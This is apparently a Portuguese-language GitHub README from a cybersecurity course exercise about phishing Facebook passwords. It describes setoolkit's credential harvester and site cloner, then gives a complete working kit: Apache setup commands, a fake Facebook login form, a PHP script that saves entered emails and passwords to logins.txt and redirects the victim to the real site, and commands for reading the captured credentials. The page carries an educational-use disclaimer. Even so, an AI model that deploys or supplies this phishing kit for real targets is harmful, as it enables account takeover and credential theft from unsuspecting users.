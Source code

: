 # cibersecurity-desafio-phishing
Phishing para captura de senhas do Facebook

Ferramentas

Kali Linux

setoolkit

Configurando o Phishing no Kali Linux

Acesso root: sudo su

Iniciando o setoolkit: 

Tipo de ataque: Social-Engineering Attacks

Vetor de ataque: Web Site Attack Vectors

Método de ataque: Credential Harvester Attack Method 

Método de ataque: Site Cloner

Obtendo o endereço da máquina: ifconfig

URL para clone: http://www.facebook.com


![Captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/5e1a7afe-ff99-41b7-94c6-5abbae6526c0)
ss

sobre a imagem acima

Nesse  caso, não aparece diretamente um "username" ou "password" legível. Isso pode acontecer quando:

O site clonado não usa formulários padrão (como o Facebook, que usa JavaScript avançado e AJAX).

Os dados são enviados em partes criptografadas ou com tokens.

por isso ocorreu o erro.

eu consegui fazer mais de outra forma fazendo uma pagina fake do facebook

#  Página Falsa do Facebook para Captura Simulada de Login

⚠️ **ATENÇÃO**: Este projeto é estritamente para fins educacionais e deve ser utilizado apenas em ambientes controlados e com autorização. **Não utilize este código para fins ilegais ou maliciosos.**

---

## 🎯 Objetivo

Simular uma página de login com aparência semelhante ao Facebook, capturar os dados digitados (e-mail e senha), armazená-los localmente e redirecionar o usuário para o site verdadeiro do Facebook. Projeto voltado para fins de estudo em **cibersegurança e engenharia social**.

---

## 🧰 Tecnologias e Ferramentas Usadas

- Kali Linux (VirtualBox)
- 
- Apache2
- 
- HTML + CSS
- 
- PHP
- 
- Bash (comandos de terminal)

---

## 🛠️ Etapas do Projeto

### 1. Instalação e execução do Apache

```bash
sudo apt update

sudo apt install apache2

sudo systemctl start apache2

sudo systemctl enable apache2

### 2. Verificar se o Apache está rodando

sudo systemctl status apache2

Você deve ver algo como:

Active: active (running)

### 3. Descobrir o IP local da máquina

ip a

Procure uma linha como:

inet 192.168.1.5/24

Esse será o IP para acessar a página falsa:

192.168.1.5

🧩 Arquivos do Projeto

index.html
Página de login falsa com visual semelhante ao Facebook.

<form method="POST" action="process_login.php">
  <input type="text" name="email" placeholder="Email ou telefone" required />
  <input type="password" name="password" placeholder="Senha" required />
  <button type="submit">Entrar</button>
</form>

Salve como:

sudo nano /var/www/html/index.html

process_login.php
Script que recebe os dados do formulário, salva no arquivo logins.txt e redireciona para o Facebook verdadeiro.

<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';
    file_put_contents("logins.txt", "Email: $email | Senha: $password\n", FILE_APPEND);
    header("Location: https://www.facebook.com");
    exit();
} else {
    echo "Método inválido.";
}
?>

Salve como:

sudo nano /var/www/html/process_login.php

logins.txt
Arquivo onde os dados capturados serão armazenados.

sudo touch /var/www/html/logins.txt
sudo chmod 666 /var/www/html/logins.txt


✅ Teste Final
Acesse: http://192.168.1.5

Preencha e envie o formulário

Verifique se você foi redirecionado para o site real

Veja os dados capturados:

cat /var/www/html/logins.txt

## Exemplo de Captura



![Captura de tela](https://raw.githubusercontent.com/Luis8523/cibersecurity-desafio-phishing/main/Captura_de_tela_2025-06-11_113635.png)



